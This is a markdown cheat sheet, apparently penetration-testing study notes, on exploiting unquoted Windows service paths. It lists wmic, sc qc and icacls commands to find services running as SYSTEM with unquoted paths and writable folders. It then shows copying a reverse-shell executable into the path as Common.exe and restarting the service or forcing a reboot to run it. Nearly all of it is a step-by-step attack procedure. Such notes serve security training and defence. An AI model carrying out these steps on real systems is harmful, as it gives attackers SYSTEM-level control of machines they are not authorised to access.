

# Service Exploits - Unquoted Service Path

List services

	wmic service get Pathname
	
Listing running services

	wmic service get name,displayname,pathname,startmode
	
Listing services that are auto started

	wmic service get name,displayname,pathname,startmode| findstr /i "auto"
	
Listing running non-standard services 

*Check the output for paths do NOT have quotes*

	wmic service get name,displayname,pathname,startmode | findstr /i /v "c:\windows"
	
Find services with unquotes path

Look for two things in the output for the following command

	sc qc <service-name>

1. (SERVICE_START_NAME) To make sure the service runs in SYSTEM privilege 
2. the BINARY_PATH_NAME is unquoted

Notice the example path 

	C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
	
If the directory `C:\Program Files\Unquoted Path Service\` is writtable, we can place the reverse shell binary there.

Checking permissions to write in the directory

	icacls "C:\Program Files"
	icacls "C:\Program Files\Unquoted Path Service"
	
You need to find either (W) or (F) next to users

	
The reverse shell binary can be placed as the following

	copy "C:\PrivEsc\reverse.exe" "C:\Program Files\Unquoted Path Service\Common.exe"
	
Explanation:
	since the path is unquote, Windows does not process the spaces properly. Instead, it looks for the following:
	
		`C:\Program.exe`
		`C:\Program Files\Unquoted.exe`
		`C:\Program Files\Unquoted Path Service\Common.exe`
	
*Note: Make sure the two reverse shells are not the same. Two different listeners with two different port numbers*

Restart the service
	
	`net start <Service-Name>`
		
If unable to start the service try rebooting

	shutdown /r /t 0

If wmic was not found, try

	"C:\Windows\SysWOW64\wbem\WMIC.exe" service get Pathname

